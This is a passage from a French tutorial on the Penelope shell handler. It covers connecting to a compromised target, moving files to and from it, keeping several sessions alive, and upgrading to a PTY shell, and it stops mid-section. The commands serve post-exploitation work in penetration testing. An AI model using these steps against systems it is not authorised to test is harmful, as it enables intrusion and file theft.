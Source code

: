 ***

#### 1. Établir une Connexion avec une Cible

Pour établir une connexion avec une cible compromise, utilisez la commande suivante :

```bash
python3 penelope.py -t <target_ip> -p <target_port>
```

* **Explication** :
  * `-t` : Spécifie l'adresse IP de la cible.
  * `-p` : Indique le port sur lequel se connecter (par défaut, 22 pour SSH ou 4444 pour un reverse shell).

***

#### 2. Téléchargement et Upload de Fichiers

**a) Télécharger un fichier depuis la machine cible**

```bash
download /path/to/remote/file /path/to/local/destination
```

* **Explication** :
  * Télécharge un fichier spécifique depuis la cible vers votre machine.

**b) Uploader un fichier vers la cible**

```bash
upload /path/to/local/file /path/to/remote/destination
```

* **Explication** :
  * Envoie un fichier local (par exemple, un script de post-exploitation) vers la cible.

***

#### 3. Maintenir des Sessions Multiples

Penelope permet de maintenir plusieurs sessions actives avec une cible. Si une session est perdue, elle est automatiquement recréée.

```bash
python3 penelope.py --maintain 2
```

* **Explication** :
  * `--maintain` : Spécifie le nombre de sessions à maintenir (2 dans cet exemple).

***

#### 4. Auto-Upgrade en Shell PTY

Dès qu'une connexion est établie, Penelope tente d'upgrader automatiquement un shell simple en PTY (Pseudo-Terminal) pour permettre des commandes interactives comme `nano` ou `top`.

**Si l’upgrade n’est pas automatique, utilisez la commande :**
